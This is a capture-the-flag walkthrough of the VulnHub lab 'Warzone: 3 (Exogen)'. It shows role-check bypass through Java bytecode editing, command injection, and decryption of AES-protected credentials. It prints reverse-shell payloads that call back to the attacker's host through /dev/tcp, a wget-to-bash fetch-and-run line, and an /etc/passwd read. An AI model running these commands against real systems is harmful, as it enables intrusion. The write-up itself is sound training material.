




# Warzone: 3 (Exogen)

Difficulty:: #Hard
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Warzone: 3 (Exogen)](https://www.vulnhub.com/entry/warzone-3-exogen,606/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:W/RC:U/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:W/RC:U/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Custom Exploitation, Code Analysis, Crypto, Programming Skills
Mission : Find the alien boss
Based on : Java
Difficulty : Hard
Recommended : Give a try without the walkthrough
Info : Created and Tested in Virtual box (NAT network)*


## Summary
Warzone: 3 (Exogen) starts with an `FTP` service that allows the `Anonymous` user, and it contains a `note.txt` and the `alienclient.jar` file. In the note I find the `alienum:exogenesis` credentials that I can use to log in in the  `jar` file, after using the `Java Decompiler JD-GUI` I see that is a client binary that connects with a service expose in the target machine. When I run the `jar` binary and intercept the data it sends to the server with `tcpdump`,  I could see a way to bypass the `role` conditions and run `bash` commands in the server with the user `exomorph`, at this point I identify multiples approach, and I decided to modify the Java binary with the [Recaf tool](https://github.com/Col-E/Recaf/), With ReCaf I could modify the assembler instructions and perform a reverse shell. When I explore the server with the `exomorph` user, then I find a new Java binary `wrz3encryptor.jar` used to encrypt files with `AES` symmetric encryption, and I can see the `IV` and the `key` in the binary, I also find the file `.aliens.encrypted` that contains encrypted data, then at this point, I also have multiples options, but I decided to modify de assembler instructions again to convert eh binary encryption in a decryptor binary, and after decrypt the `.aliens.encrypted` I find the credentials `anunnaki:nak1nak1..` and I could `ssh` with that credentials and get the `anunnaki` shell and the user shell. In the `anunnaki` home I find the `info.txt` that suggests decrypting the `secpasskeeper.jar.gpg` file and the passphrase is the same `SSH` password, after using the `gpg` command I could decrypt the last `secpasskeeper.jar` Java binary, that is used as a password manager, and it also uses the `AES` symmetric encryption, then after analyzing I could modify the binary to get the encrypted `root` password, and get the `root` shell and the  `root` flag.

1. CWE-552: Files or Directories Accessible to External Parties
2. CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
3. CWE-256: Plaintext Storage of a Password
4. CWE-287: Improper Authentication
5. CWE-863: Incorrect Authorization
6. CWE-327: Use of a Broken or Risky Cryptographic Algorithm
7. CWE-257: Storing Passwords in a Recoverable Format
8. CWE-522: Insufficiently Protected Credentials
9. CWE-521: Weak Password Requirements

#VirtualBox #Nmap #Python #FTP #Java #JD-GUI #ReCaf #Assembler #TCPdump #AES #Cryptography #GPG

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.58`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.58
...SNIPPED...
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
4444/tcp open  krb524?
...SNIPPED...
```
Then I identify 3 open ports, the `vsftpd 3.0.3` service runs on `21` TCP, and the `OpenSSH 7.9p1` service runs on `22` TCP. and a custom service runs on `4444` TCP, and it runs on `Debian 10+deb10u2`. When I scan it again with the `http-enum` script:
```shell
$ nmap -p 21,22,4444 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.58
...SNIPPED...
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_dr-xr-xr-x    2 ftp      ftp          4096 Nov 19  2020 pub
...SNIPPED...
```
Then I can see that the `Anonymous` user is allowed, and there is a directory called `pub`.

## Normal use case
Access `FTP` services as an `Anonymous` user.

Given I can access `ftp://192.168.2.58`, then I use the ftp command with the user `Anonymous`:
```shell
$ ftp 192.168.2.58
```
And I check the files inside the `pub` directory:
```shell
-rw-r--r--    1 ftp      ftp          7704 Nov 19  2020 alienclient.jar
-rw-r--r--    1 ftp      ftp           315 Nov 19  2020 note.txt
```
And I download both files.

## Dynamic detection
Exposed credentials, bypass permissions, and injection of OS commands.

Given I can access `FTP` services, and I can use the `Anonymous` user, and I find a `.jar` and `.txt` file, then I will start analyzing them. When I read the `note.txt` file:
```txt
Please your attention,
The system for uploading and viewing reports related to aliens' behavior
is now live. The default credentials for your entry are alienum@exogenesis
your token is sha256(username). Also, do not be afraid our system is very
secure. If you want higher privileges please contact our boss.
```
Then I can see the credentials `alienum:exogenesis`, and I test it in the `SSH` connection, but it does not work, and I think the note is about the program `alienclient.jar`. When I decompile the `.jar` file with the `Java Decompiler JD-GUI`, then I can see the `Starter` class:


And it seems that the Java program generates a `GUI`, when I run the binary with the `java` command:
```shell
$ java -jar alienclient.jar
java.net.UnknownHostException: warzone.local
...SNIPPED...
```
Then I get an error, and that makes sense, my local machine does not recognize that host. When I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.2.58 warzone.local" | sudo tee -a /etc/hosts
```
And I run the `java` command again, then I can see a login view:


When I use the `alienum:exogenesis` credentials, then it works, and I see the `upload` and `view` buttons:


When I use the `view` button, then I see a message, and it says `Permission Denied`:


When I use the `upload` button, then I see the same window, but with the message `Has not been implemented`. When I look for those options in the decompiled code, then I can see what action each option performs:


And the `upload` button just shows a message, but the `view` option checks the role of the user, and only the `astronaut` role is allowed, and after validating the role, and it will send a message to the server, and here I can think of 3 possible options:
```
1. Intercept and modify TCP communication to change the role
2. Understand how the protocol works and write a script to replicate it
3. Find a way to modify the current binary
```
And I decided to try the third option. When I google `modify Java decompiled with JD-GUI`, then I find [java editing bytecode](https://www.whiteoaksecurity.com/blog/java-editing-bytecode/), and in that post, the `ReCaf` tool is mentioned, and I read that the `ReCaf` tool has the option to edit the assembler code, and the post shows an example of how to edit, save, and export the modified binary, and I decided that I am going to try it.

When I go to the [GitHub repository of the Recaf tool](https://github.com/Col-E/Recaf/), and I download the latest version:
```shell
$ wget "https://github.com/Col-E/Recaf/releases/download/2.21.13/
> recaf-2.21.13-J8-jar-with-dependencies.jar"
```
And I use the `java` command:
```shell
$ java -jar recaf-2.21.13-J8-jar-with-dependencies.jar
```
Then it opens a `GUI`, when I follow the instructions in the post I found, and I load the binary `alienclient.jar`, then I can see the same code as when I use the `JD-GUI`, and I start to think about what I am going to modify, and I want to bypass the condition that validates the `role` of the user, and I decided to modify lines `108` and `110`:
```java
108 if (role.equals("researcher")) {
109  JOptionPane.showMessageDialog(this, "Permission Denied");
110 } else if (role.equals("astronaut")) {
```
When I start to analyze the structure of the assembly code, then I identify the lines that I have to modify:


And I start playing with the assembly code, when I replace `researcher` with `garbage` on line `207`:
```assembler
207 LDC "junk"
208 INVOKEVIRTUAL java/lang/String.equals(Ljava/lang/Object;)Z
```
And replace `astronaut` with `researcher` on line `220`:
```assembler
220 LDC "researcher"
221 INVOKEVIRTUAL java/lang/String.equals(Ljava/lang/Object;)Z
```
Then I can see the modified lines:


When I export it with the name `alienclient_modified.jar`, and I use the `java` command to run the new binary, and I use the credentials `alienum:exogenesis`, and I decided to be able to analyze the traffic, and I run the `tcpdump` command:
```shell
$ sudo tcpdump -i enp0s8 -nnX host 192.168.2.58
```
And I use the `view` button, then it no longer shows me the message `Permission denied`, but it does not work, and I know it fails because I am checking the `TCP` traffic. When I check the code again, and I analyze the section after the role validation, then I identify the lines from `142` to `147`:
```java
142 RE list = new RE();
143 token.setRole(role);
144 list.setToken(token);
145 list.setOption("VIEW");
146 list.setCmd("LIST");
147 list.setValue(null);
```
And I notice the `setCmd` command, it looks interesting, and the `role` variable defines the `role` that will be sent, and that variable stores the string `researcher`, then I decided to modify the argument of the `setToken` method, and in the assembly code that happens from lines `251` to `252`:
```assembler
251 GETSTATIC alien/Starter.role Ljava/lang/String;
252 INVOKEVIRTUAL alien/Token.setRole(Ljava/lang/String;)V
```
When I replace line `251` with:
```assembler
251 LDC "astronaut"
```
And I save and export it again, and I run it with the `java` command again, and I use the same credentials, and I click the `view` button, then it works:


And I can see 4 filenames, when I click on one of them, then I can see the content of the file, but all the notes are about `alien sightings`, and that is not useful. When I check the section of code that opens the files, then I find the lines from `254` to `258`:
```java
254 RE list = new RE();
255 list.setToken(Starter.token);
256 list.setOption("VIEW");
257 list.setValue("VALUE");
258 list.setCmd("tail -5 " + f);
```
And I can see the `tail -5` command in the `setCmd` method, and that maybe means I can run custom `bash` code. When I recheck the `view` button action, and I see that the string `LIST` is assigned on line `266`:
```java
266 LDC "LIST"
267 INVOKEVIRTUAL alien/RE.setCmd(Ljava/lang/String;)V
```
And I replace the string `LIST` with the string `id`:
```assembler
266 LDC "id"
```
And I repeat all the above processes of exporting and running again, then it does not work, and I compare what is different when the code uses the `tail` command, and it is the `setValue` method, and in the `tail` command section it has the string `VALUE`, and in the `LIST` command section it has a `null` value. When I search for the `null` value in the assembler code, and I find it on line `271`:
```assembler
271 ACONST_NULL
272 INVOKEVIRTUAL alien/RE.setValue(Ljava/lang/String;)V
```
And I replace the `null` with the string `VALUE`:
```assembler
271 LDC "VALUE"
```
And I try it again, and I check the trace of the `tcpdump` command, then I can see the output of the `id` command:



And I see that the user `exomorph` is the one running the `bash` command, and I can conclude that I can inject custom `bash` commands.

## Exploitation
Password storage in a recoverable format and password reuse.

Given I identified a `Java` binary on a public `FTP` service, and I also found credentials to access the application, and I could bypass the user permissions, and I could inject custom `bash` commands, then I will try to perform a reverse shell. When I modify the assembler code, and I replaced the `id` command I used above, and I write the following reverse shell payload:
```assembler
266 LDC "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'"
```
And I save and export the binary again, and I open a listener with the `nc` command:
```shell
$ nc -lnvp 1234
```
And I run and access the `Java` application as I did above, then it does not work, and I decided to try something simpler, when I try to get the '/etc/passwd' file:
```shell
266 LDC "cat /etc/passwd"
```
And I repeat the process to run it again, then it works, and I can see the file `/etc/passwd`:


And I try to perform the reverse shell with a different approach.

When I store the reverse shell payload in a file called `rs.sh`:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'" > rs.sh
```
And I open an `HTTP` server with `Python3`:
```shell
$ python3 -m http.server 8000
```
And I open the listener as I did above, and I write the following command in the assembler code:
```assembler
266 LDC "wget -O- 192.168.2.31:8000/rs.sh|bash"
```
And I repeat the process to run it again, then I can see why my reverse shell payload fail:


And the `pipeline` is not being interpreted, then I decided to do the steps one by one. When I modify the assembler code again, and I write a command to download the `rs.sh` file in the `/tmp` directory:
```assembler
266 LDC "wget -O /tmp/rs.sh 192.168.2.31:8000/rs.sh"
```
And I repeat the process to run it again, and I write the code to give executable permissions to the file:
```assembler
266 LDC "chmod +x /tmp/rs.sh"
```
And I repeat the process to run it again, and I write the code to execute the `/tmp/rs.sh` file:
```assembler
266 LDC "/bin/bash /tmp/rs.sh"
```
And I repeat the process to run it again, then it works, I get the reverse shell:


## Lateral movement

I start exploring the server, when I check the home directory of the user `exomorph`:
```shell
$ exomorph@warzone3:~$ ls -la
...SNIPPED...
-r-x------ 1 exomorph exomorph  176 Nov 19  2020 .aliens.encrypted
-r-x------ 1 exomorph exomorph  176 Nov 19  2020 aliens.encrypted
...SNIPPED...
-r-x------ 1 exomorph exomorph 2912 Nov 19  2020 wrz3encryptor.jar
```
Then the `aliens.encrypted` and the `.aliens.encrypted` seem to be the same. When I use the `md5sum` command:
```shell
$ exomorph@warzone3:~$ md5sum aliens.encrypted .aliens.encrypted.bak
...SNIPPED...
42c33f2ed9d95d4ae6543f328b53c70a  aliens.encrypted
42c33f2ed9d95d4ae6543f328b53c70a  .aliens.encrypted.bak
```
Then I confirm that those files are the same, and I will download those files to my local machine. When I open an `HTTP` service on the target:
```shell
$ exomorph@warzone3:~$ python3 -m http.server 8000 &
```
And I use the `wget` command on my local machine:
```shell
$ wget 192.168.2.58:8000/wrz3encryptor.jar \
> 192.168.2.58:8000/aliens.encrypted
```
Then I start playing with the new `Java` binary.

When I use the `JD-GUI` to decompile the `wrz3encryptor.jar` file, then I can see the `Main class`:


And I see that the code encrypts the file `aliens.txt`, and it saves the encrypted data in a file called `aliens.encrypted`, and because I also saw a file called `aliens.encrypted` on the server, then I can guess that I will be able to decrypt it.

When I check the `Cryptor.encrypt()` method, then I can see lines from `23` to `25`:
```java
23 public static void encrypt(String key, File inputFile, File outputFile)
   throws CryptoException {
24   doCrypto(1, key, inputFile, outputFile);
25 }
```
And it calls the `doCrypto` function. When I check that function from lines `29` to `33`:
```java
29 private static void doCrypto(int cipherMode, String key, File inputFile
   , File outputFile) throws CryptoException {
30 try {
31  Key secretKey = new SecretKeySpec(key.getBytes(), "AES");
32  Cipher cipher = Cipher.getInstance("AES");
33  cipher.init(cipherMode, secretKey);
```
Then I can see that it uses symmetric `AES` encryption, and because it is a `symmetric cipher`, then I will be able to unencrypt it with the same key, and in the `Main class`, I see the key `w4rz0nerex0gener`, and here I think of two options:
```
1. Write a Python script to decrypt the data
2. Modify the current Java program to decrypt the data
```
And I decided to choose option 2. When I google `javax.crypto.Ciphe ciphermode`, then I find [the oracle documentation of teh crypto library](https://docs.oracle.com/javase/7/docs/api/javax/crypto/Cipher.html):



And I can see the available encryption modes. When I search for the links in that table, then I can see [the encryption modes](https://docs.oracle.com/javase/7/docs/api/constant-values.html#javax.crypto.Cipher.ENCRYPT_MODE):



And I can see that the decryption mode is the constant `2`, And the encryption mode is `1`. When I use the `ReCaf` program to edit the assembler code, and I look for the section that assigns the constant `1`, then I find it in the lines from `5` to `9`:
```assembler
5 ICONST_1
6 ALOAD key
7 ALOAD inputFile
8 ALOAD outputFile
9 INVOKESTATIC alienum/Cryptor.doCrypto(ILjava/lang/String;Ljava/io/File;
  Ljava/io/File;)V
```
When I replace the `ICONST_1` with `ICONST_2`, and to avoid confusion I also change the names of the files, and in the assembly code of the `Main class` from lines `13` to `14`, and from lines `20` to `21`:
```assembler
13 LDC "aliens.txt"
14 INVOKESPECIAL java/io/File.<init>(Ljava/lang/String;)V
...SNIPPED...
20 LDC "aliens.encrypted"
21 INVOKESPECIAL java/io/File.<init>(Ljava/lang/String;)V
```
Then I swap the names, when I save the changes, and export it in a file called `wrz3encryptor_modified.jar`, and I run it with the `java` command:
```shell
$ java -jar wrz3encryptor_modified.jar
```
Then the `aliens.txt`' file is generated. When I read it with the `cat` command, then some unknown characters appear, but I use the `strings` command, and now it looks good:


And I can see multiples credentials, and from the server exploration, I know that the user `anunnaki` exists, when I use the `ssh` command with the credentials `anunnaki:nak1nak1..`:
```shell
$ sshpass -p "nak1nak1.." ssh anunnaki@192.168.2.58
```
Then it works:


And I get the user flag `underboss.txt`:


## Privilege escalation
I notice the `sudo` group in the `id` command. When I use the `sudo` command:
```shell
$ anunnaki@warzone3:~$ sudo -l
[sudo] password for anunnaki:
Sorry, user anunnaki may not run sudo on warzone3.
```
Then that does not work. When I check the files in the `anunnaki` home directory:
```shell
...
-rw-r--r--  1 anunnaki anunnaki  132 Nov 20  2020 info.txt
...
-r-x------  1 anunnaki anunnaki 3476 Nov 19  2020 secpasskeeper.jar.gpg
...
```
Then I see two interesting files, when I read `info.txt`:
```txt
Remember to use --batch,
otherwise, the passphrase options will be ignored when you decrypt the gpg
file. You know the pa[ssh]phrase
```
And it talks about decrypting a `GPG` file, when I use the `file` command:
```shell
$ anunnaki@warzone3:~$ file secpasskeeper.jar.gpg
secpasskeeper.jar.gpg: GPG symmetrically encrypted data (AES256 cipher)
```
Then that should be the encrypted file that the `info.txt` file mentions. When I google `decrypt GPG file`, then I find the post [How to encrypt and decrypt files using gpg](https://blog.knoldus.com/how-to-encrypt-and-decrypt-files-using-gpg/), and I realize that I can use the `gpg` command to decrypt it, and for the sentence `You know the pa[ssh]phrase`, then the passphrase should be the same as the one for the `SSH` connection.

When I use the `gpg` command, and I add the `--bath` option recommended by the `info.txt` file:
```shell
$ anunnaki@warzone3:~$ gpg --batch \
> --decrypt secpasskeeper.jar.gpg > secpasskeeper.jar
```
And it asks me for a passphrase, and I use `nak1nak1..`, then it works. When I copy the `secpasskeeper.jar` file to my local machine:
```shell
$ sshpass -p "nak1nak1.." \
> scp anunnaki@192.168.2.58:/home/anunnaki/secpasskeeper.jar .
```
And I decompiled it with the `JD-GUI` tool, then I can see the `Main class`:


And that is a password manager tool for the `root` user, and in the `Resources class`, I can see the passphrase `pr0tect1on1smust`, and if I enter the correct passphrase, then it will decrypt the secret data that is stored in the `Resources class`, when I use the `java` command:
```shell
$ java -jar secpasskeeper_exported.jar
Error: LinkageError occurred while loading the main class Main
  java.lang.UnsupportedClassVersionError: Main has been compiled by a more
  recent version of the Java Runtime (class file version 58.0), this
  version of the Java Runtime only recognizes class file versions up to
  57.0
```
Then I get and error, when  I google it, then I find an answer on StackOverflow question: [Has been compiled by a more recent version of the Java Runtime (class file version 57.0)](https://stackoverflow.com/questions/58125830/has-been-compiled-by-a-more-recent-version-of-the-java-runtime-class-file-versi):


When I check my java version:
```shell
$ java --version
openjdk 13.0.5.1 2020-11-06
...
```
Then my version matches the information on `StackOverflow`, and I need at least `Java version 14`. When I google `Debian install OpenJDK 14`, then I find the post [how to install java 14 on ubuntu](https://computingforgeeks.com/how-to-install-java-14-on-ubuntu-debian/), when I follow the steps:
```shell
$ wget "https://download.java.net/java/GA/jdk14/
> 076bab302c7b4508975440c56f6cc26a/36/GPL/openjdk-14_linux-x64_bin.tar.g"
```
And I use the `tar` command to extract the files:
```shell
$ tar xvzf openjdk-14_linux-x64_bin.tar.gz &>/dev/null
```
And I run that new Java binary, and I send it the passphrase `pr0tect1on1smust`
```shell
$ echo -n "pr0tect1on1smust" | ./jdk-14/bin/java -jar secpasskeeper.jar
[Warzone 3] Root's Password Manager
Secret passphrase : Exception in thread "main"
javax.crypto.BadPaddingException: Given final block not properly padded.
Such issues can arise if a bad key is used during decryption.
  ...
  at Cryptor.decrypt(Cryptor.java:47)
  at Main.main(Main.java:24)
```
Then there is an error when decryption uses my input, and I think of several options again, and I decided to follow the line of editing the assembly code. When I read the `Main class` again, then I identify that I have to remove line `24`:
```java
24 String user = cryptor.decrypt(secret, removeSalt(res.getCipher()));
```
And that will prevent it from failing since it will no longer use my input. When I check the assembler code, then I identify the equivalent lines from `45` to `51`:
```assembler
45 ALOAD cryptor
46 ALOAD secret
47 ALOAD res
48 INVOKEVIRTUAL Resources.getCipher()Ljava/lang/String;
49 INVOKESTATIC Main.removeSalt(Ljava/lang/String;)Ljava/lang/String;
50 INVOKEVIRTUAL Cryptor.decrypt(Ljava/lang/String;Ljava/lang/String;)
   Ljava/lang/String;
51 ASTORE user
```
And I delete them.

When I search for the condition that validates the user on line `26`:
```java
26 if (user.equals(sys)) {
```
Then I find it from lines `69` to `71`:
```assembler
69 ALOAD user
70 ALOAD sys
71 INVOKEVIRTUAL java/lang/String.equals(Ljava/lang/Object;)Z
```
And I replace the `user` with `sys`, and that way it will compare `sys.equals(sys)`, and that will always be true, and that can be seen in:


When I save the changes, and I export it in a file called `secpasskeeper_modified.jar`, and I use the `java` command:
```shell
$ echo -n "junk" | ./jdk-14/bin/java -jar secpasskeeper_modified.jar
[Warzone 3] Root's Password Manager
Secret passphrase : [+] Success, the password is : ufo_phosXEN
```
Then I see the `root` password `ufo_phosXEN`. When I use the `ssh` command:
```shell
$ sshpass -p "ufo_phosXEN" ssh root@192.168.2.58
```
Then it works, I get the `root` shell:



And I get the `root` flag `boss.txt`:


## Remediation
Given I find the binary `Java` client in the `FTP` services, and I was able to download it with the `Anonymous` account, and I also find plain text credentials, and I could bypass the user permissions, and I could inject `bash` commands, and with that, I could perform a reverse shell, and I find another `java` binary that encrypts files, but it uses a symmetric `AES` encryption, and I find an encrypted file on the server, and I was able to decrypt it with the same key, and it stores plain text credentials, and I was able to access the server with another user, and that user has a `Java` binary encrypted with a `GPG` key, but the passphrase is the same as the `SSH` connection, and I was able to decrypt it, and the `Java` binary is a password management tool, and it also uses symmetric `AES` encryption, and I was able to decrypt the password, and I got the `root` password, then they should not store sensitive data in public access, and do not store passwords in plain text, and use access control that does not rely on user input alone, and sanitize user inputs, and choose the right type of encryption, and do not reuse passwords. then with that, it may not be possible to get the root's shell.
